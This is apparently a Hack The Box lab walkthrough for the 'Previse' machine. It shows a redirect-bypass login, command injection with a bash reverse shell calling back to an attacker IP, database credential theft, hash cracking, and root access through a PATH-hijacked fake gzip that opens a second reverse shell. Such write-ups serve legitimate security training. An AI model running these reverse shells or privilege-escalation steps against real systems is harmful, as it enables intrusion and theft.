


# [Previse](https://app.hackthebox.com/machines/previse)

```bash
nmap -p- --min-rate 10000  10.10.11.104 -Pn
```


After identifying (22,80) ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.104 -Pn
```


There's automatic redirect while trying to login, that's why we need to change HTTP response status code into '200 OK' from '302 Not Found'

That's vulnerability called 'EAR' means (Execution After redirect)

1. First browse '/' page which says 302 Found and redirets into login.php
2. While you see 302 Found (on Interceptor), change this '200 OK'
3. On final, you are successfully authenticated.

Before request situation,


We change into '200 OK' which we do manually.


Now, finally we are logged in.


Let's create user for ourselves, for each request we do what we do on previous step (changing from '302 Found' into '200 OK' )


Dr4ks: Dr4ksdr4ks

I created account, let's login via this creds.

Now, we are 'Dr4ks' user.


I identify Command Injection on parameter of 'comma' for 'logs.php' file.


I add my reverse shell into value.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.14.4/1337 0>%261' #
```


We got reverse shell.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I found Mysql DB credentials on 'config.php' file on '/var/www/html' directory.




root: mySQL_p@ssw0rd!:)

```bash
mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'
```


Let's grab m4lwhere user's hash to crack via `hashcat` tool.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

m4lwhere: ilovecody112235!


user.txt


For privilege escalation, let's run `sudo -l` command to see how we can be root user.


Let's add reverse shell into this script and run as root user.


I see that 'gzip' binary is used, let's exploit this on this way that I create malicious 'gzip' file and masqeaured as like normal binary.


```bash
cd /tmp
echo "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" >> gzip
chmod +x gzip
export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
sudo /opt/scripts/access_backup.sh
```


root.txt

